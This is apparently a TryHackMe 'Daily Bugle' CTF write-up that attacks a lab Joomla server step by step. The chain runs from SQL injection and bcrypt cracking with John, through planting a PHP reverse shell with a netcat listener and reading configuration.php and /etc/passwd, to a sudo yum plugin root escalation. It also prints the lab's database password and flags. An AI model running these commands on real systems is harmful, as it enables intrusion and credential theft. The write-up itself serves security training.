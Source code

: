 # Daily Bugle Writeup

    Box IP Addresses:
    10.10.27.237
#1 	

Access the web server, who robbed the bank?

spiderman.

[Task 2] Obtain user and root 

#1 - What is the Joomla version?

https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website

So we navigate to: http://10.10.27.237/administrator/manifests/files/joomla.xml

Where we find the XML file that contains the Joomla version.

![](2020-08-20-12-30-52.png)

Also found a list of files:

![](2020-08-20-12-32-13.png)



#2  - *Instead of using SQLMap, why not use a python script!* What is Jonah's cracked password?

kali@kali-[10.8.82.167]:~/gitclones/joomblah-3$ python joomblah.py http://10.10.27.237
                                                                                                                                                                      
    .---.    .-'''-.        .-'''-.                                                                                                                                   
    |   |   '   _    \     '   _    \                            .---.                                                                                                
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .                                                                                   
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|                                                                                   
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |                                                                                   
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |                                                                                   
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.                                                                            
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \                                                                           
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |                                                                           
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |                                                                           
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |                                                                            
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.                                                                          
|____.'                                                                `--'  `" '---'   '---'                                                                         

 [-] Fetching CSRF token
 [-] Testing SQLi
('  -  Found table:', 'fb9j5_users')
('  -  Extracting users from', 'fb9j5_users')
(' [$] Found user', ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''])
('  -  Extracting sessions from', 'fb9j5_session')
kali@kali-[10.8.82.167]:~/gitclones/joomblah-3$ 

From the hash we can tell its bcrypt:

$2y$ - hash was generated with a version of bcrypt released after 2011
$10$ - This is the “cost”, as in the plaintext is run through 2^10 iterations of the blowfish cipher.

Taken from: https://unicornsec.com/home/tryhackme-crack-the-hash

So we can run JohnTheRipper on it:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/daily-bugle$ john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt bcrypt.txt

    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:05 0.01% (ETA: 12:46:11) 0g/s 193.1p/s 193.1c/s 193.1C/s bullshit..piolin
    0g 0:00:03:00 0.19% (ETA: 2020-08-21 14:55) 0g/s 184.4p/s 184.4c/s 184.4C/s marshmallows..lauren10
    spiderman123     (?)
    1g 0:00:04:22 DONE (2020-08-20 12:57) 0.003812g/s 178.5p/s 178.5c/s 178.5C/s thelma1..speciala
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

    kali@kali-[10.8.82.167]:~/labs/tryhackme/daily-bugle$ john --show bcrypt.txt
    ?:spiderman123

    1 password hash cracked, 0 left

Took about 5 minutes.

username: jonah
password: spiderman123

and we can sign in using these credentials in the login form on the website:

![](2020-08-20-13-38-57.png)

We can edit articles now, and hopefully upload files too...
We can go to the administrator page and log in:

![](2020-08-20-13-43-18.png)

Navigating to Extensions --> Templates --> Templates, we can enter either template folder, I chose Beez3, click New File, type in shell.php, and copy paste the contents of the php reverse shell into there.

![](2020-08-20-14-28-10.png)

Then save, start up netcat (nc -lvnp 1234), and go to:

    10.10.27.237/templates/beez3/shell.php

Searching around I find a configuration.php file which contains database username + password for root:

  public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
        public $error_reporting = 'default';

Lets do cat /etc/passwd to see what other users there are:

    sh-4.2$ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    polkitd:x:999:998:User for polkitd:/:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin
    chrony:x:998:996::/var/lib/chrony:/sbin/nologin
    jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin

We have a user called jjameson. Use the password with jjameson on ssh, and you're in!

[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e

#3 - What is the user flag?
27a260fe3cba712cfdedb1c86d80442e

#4 - What is the root flag?

Exploit: https://gtfobins.github.io/gtfobins/yum/

Run as below:

![](2020-08-20-16-10-11.png)

[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
> 
.bash_history  .bash_logout   .bash_profile  .bashrc        user.txt
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cat /root/root.txt

Complete!

Mistakes I made:

- Didn't look at the sudo -l privileges of jjameson.
- Didn't try out the password found in the config file, as the password for jjameson SSH.
- Stuck on uploading the shell (finding the place to upload the file).
